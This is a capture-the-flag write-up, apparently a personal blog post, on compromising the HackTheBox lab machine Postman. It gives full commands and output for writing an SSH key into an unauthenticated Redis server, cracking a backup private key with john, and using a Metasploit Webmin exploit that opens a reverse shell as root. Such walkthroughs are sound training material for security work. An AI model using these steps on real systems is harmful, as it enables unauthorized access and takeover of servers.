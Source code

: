 ```yaml
---
layout: post
title: HackTheBox Postman (10.10.10.160) Writeup
description: >
  Hackthebox Postman Writeup
image: /assets/img/postman.png
noindex: true
---
```


Start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 18:04 EST
Nmap scan report for postman (10.10.10.160)
Host is up (0.063s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.24 seconds
```
So a few ports open. First I enumerated port 80 and didn't find anything useful. Next I checked out port 10000 and once there I had to add ```postman``` to my ```/etc/hosts``` file. Once that was done I refreshed the page and was greeted with a ```webmin``` login. Now I was not able to do anything more since every exploit requires valid credentials which I don't have. Lastly, was port 6379 with redis. First I try to connect using ```telnet``` to see if the service has any sort of authentication set and turns out it doesn't. next step was to install ```redis-tools``` so I could use the ```redis-cli``` to interact with the redis service. Once that was done I was able to find an exploit where I upload my own ssh keys to the server and use that to ssh into the system.

First step is to take my ssh key and copy it to a new file but at the same time generating some random data to the beginning and end of the file
```
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```
Next step is to set the keys into the database. You should see and OK message
```
# cat key.txt | redis-cli -h 10.10.10.160 -p 6379 -x set bb
OK
```
Now I need to copy the ssh key into the .ssh folder but first I need to find where that is. Using the command below I see its located at ```/var/lib/redis/.ssh```.
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```
Now I change into the directory
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
```
Then I change the name of the database to ```authorized_keys``` since this will be the name of out file. Then just save and exit.
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Now I can ssh in as the user ```redis``` from my host machine
```
# ssh -i id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Nov  5 19:58:37 2019 from 10.10.14.19
redis@Postman:~$ 
```
Now doing some manual enumeration I found an ```id_rsa.bak``` file in ```/opt```. I copied this file to my host machine and saw that it was password protected. Using ```ssh2john``` I can convert the ssh key into a format that john and read and will crack the password for me.
```
# python ssh2john.py id_rsa.bak > id_rsa.hash
```
Now john cracks the hash in only a few seconds and I am given a password of ```computer2008```
```
# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-11-05 15:33) 0.07818g/s 1121Kp/s 1121Kc/s 1121KC/sa6_123..*7¡Vamos!
Session completed
```
I tried to ssh in as the user ```Matt``` and ```root``` and niether worked so the only other thing I could think of was to use the password for the ```webmin``` login page. It ended up working as the username ```Matt``` and password ```computer2008```. Now since I have credentials, I can use one of the CVE's from earlier. I spin up metasploit and load in the module ```exploit/linux/http/webmin_packageup_rce```. After entering all the necessary info I type run and it spawns a shell. If I do a ```whoami``` I see that I am the user ```root```
```
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] Session cookie: 3e1a4b0fabef10776fd267a6809f2f62
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.160:44420) at 2019-11-05 16:25:54 -0500

whoami
root
```
To give myself a better shell I will spawn myself a python tty shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# cd
root@Postman:~#
```
From here I can read the user flag located at ```/home/Matt/user.txt```
```
root@Postman:~# cat /home/Matt/user.txt
517ad0ec2458ca****************
```
And the root flag from ```/root/root.txt```
```
root@Postman:~# cat root.txt
cat root.txt
a257741c5bed8be7**************
```
<br><br><br><br>

